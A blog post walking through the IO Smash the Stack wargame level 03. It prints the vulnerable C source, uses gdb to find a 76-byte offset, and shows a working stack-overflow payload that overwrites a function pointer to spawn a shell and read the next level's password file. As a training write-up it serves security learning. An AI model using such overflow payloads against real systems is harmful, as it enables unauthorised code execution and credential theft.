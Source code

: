 +++
title = "IO Smash the stack level 03"
date = "2016-01-26T09:33:00-02:00"
publishdate = "2016-01-26"
categories =["Security"]
tags = ["Wargames", "C"]
slug = "io-smashthestack-level-03"
project_url = "https://greyhat.dk/io-smashthestack-level-03"
type = "post"
+++

## Level03

```sh
level3@io:~$ cd /levels/
level3@io:/levels$ ls -latr level03*
-r-------- 1 level3 level3  658 Sep 22  2012 level03.c
-r-sr-x--- 1 level4 level3 5238 Sep 22  2012 level03
```

level3@io:/levels$ cat level03.c
```c
//bla, based on work by beach

#include <stdio.h>
#include <string.h>

void good()
{
        puts("Win.");
        execl("/bin/sh", "sh", NULL);
}
void bad()
{
        printf("I'm so sorry, you're at %p and you want to be at %p\n", bad, good);
}

int main(int argc, char **argv, char **envp)
{
        void (*functionpointer)(void) = bad;
        char buffer[50];

        if(argc != 2 || strlen(argv[1]) < 4)
                return 0;

        memcpy(buffer, argv[1], strlen(argv[1]));
        memset(buffer, 0, strlen(argv[1]) - 4);

        printf("This is exciting we're going to %p\n", functionpointer);
        functionpointer();

        return 0;
}
```

Oki so in order for us to get the shell we need to change the function pointer from `bad` to `good`. Since the program is so nice to provide us with the address of the funtion good

```sh
level3@io:/levels$ ./level03 aaaa
This is exciting we're going to 0x80484a4
I'm so sorry, you're at 0x80484a4 and you want to be at 0x8048474
```

And since we are running in an little endian machine (reverse byte order) we need to reverse the address to \x74\x84\x04\x08 but first we need to find out where to put the address (Sure we could use brute force). But lets have a look at the stack

```sh
level3@io:/levels$ gdb -q level03
Reading symbols from /levels/level03...(no debugging symbols found)...done.
(gdb) r AAAA
Starting program: /levels/level03 AAAA
This is exciting we're going to 0x80484a4
I'm so sorry, you're at 0x80484a4 and you want to be at 0x8048474
[Inferior 1 (process 18072) exited normally]
(gdb) break *0x0804855d <--- break just after the copy
Breakpoint 1 at 0x804855d
(gdb) r AAAA
Starting program: /levels/level03 AAAA

Breakpoint 1, 0x0804855d in main ()
(gdb) x/32x $esp
0xbffffc50:	0xbffffc70	0x00000000	0x00000000	0x00000001
0xbffffc60:	0xb7fff908	0xbffffc96	0xbffffca0	0xb7ef098c
0xbffffc70:	0x41414141	0xb7e9e315	0xbffffc97	0x00000001 <--- 0x41 = A
0xbffffc80:	0x00000000	0x080497c8	0xbffffc98	0x08048338
0xbffffc90:	0xb7ff0590	0x080497c8	0xbffffcc8	0x080485a9
0xbffffca0:	0xb7fcf324	0xb7fceff4	0x08048590	0xbffffcc8
0xbffffcb0:	0xb7e9e515	0xb7ff0590	0x0804859b	0x080484a4 <--- bad pointer (function pointer)
0xbffffcc0:	0x08048590	0x00000000	0xbffffd48	0xb7e85e46
(gdb) print 0xbffffcbc - 0xbffffc70
$1 = 76
```

So lets try to exploit it

```sh
level3@io:/levels$ ./level03 $(python -c 'print "A"*76 + "\x74\x84\x04\x08"')
This is exciting we're going to 0x8048474
Win.
sh-4.2$ cat /home/level4/.pass
XXXXXXXXXXXXXXXX
```

